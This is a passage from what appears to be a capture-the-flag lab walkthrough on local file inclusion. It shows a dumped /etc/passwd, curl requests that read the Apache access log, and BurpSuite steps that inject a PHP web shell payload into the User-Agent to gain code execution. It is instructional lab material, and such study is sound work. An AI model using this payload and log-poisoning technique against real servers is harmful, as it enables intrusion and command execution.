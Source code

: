 pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Remote Code Execution and Log Poisoning using LFI

Use these links as references.
- [Log Injection](https://owasp.org/www-community/attacks/Log_Injection){:target="_blank"}
- [File Inclusion Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion){:target="_blank"}


To access the third walkthrough, use `curl http://<ip>/lfi/lfi.php`.
A response will be obtained as,
{% capture code %}{% raw %}File included: <br><br><br>
Local file to be used: <br><br>{% endraw %}{% endcapture %} {% include code.html code=code %}

To read contents of `/var/log/apache2/access.log` using `?page=` parameter, use `curl 'http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log'`.
Run the command multiple times, as the log entry will be created after execution, and one consecutive commands reveals previous log entries.

An output similar will be obtained.
{% capture code %}{% raw %}File included: /var/log/apache2/access.log<br><br><br>
Local file to be used: /var/log/apache2/access.log<br><br>
<source> - - [23/Dec/2020:00:10:24 -0800] "GET /lfi/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 286 "-" "curl/7.64.0"{% endraw %}{% endcapture %} {% include code.html code=code %}


### Log poison using BurpSuite

Use these links as references.
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


Instructions on setting up BurpSuite can be found [here](https://blog.tryhackme.com/setting-up-burp/){:target="_blank"}

- Open the url `http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log` once in browser.
- Fire up BurpSuite.
- Set proxy in browser to 127.0.0.1:8080.
- Make sure intercept is on in BurpSuite.
- Reload the page in browser and wait for request to be intercepted in BurpSuite.
- Modify the User-Agent `Mozilla/5.0 <?php system($_GET[\'lfi\']); ?> Firefox/78.0` in BurpSuite intercept page.
- Forward the request back to browser.
- Modify the url `http://<ip>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r` in browser, and repeat the BurpSuite User-Agent modification and request forwarding.
- The response will contain the contents of `/var/log/apache2/access.log`, but the command output will be visible between `Mozilla/5.0  Firefox/78.0` of the injected log entries.
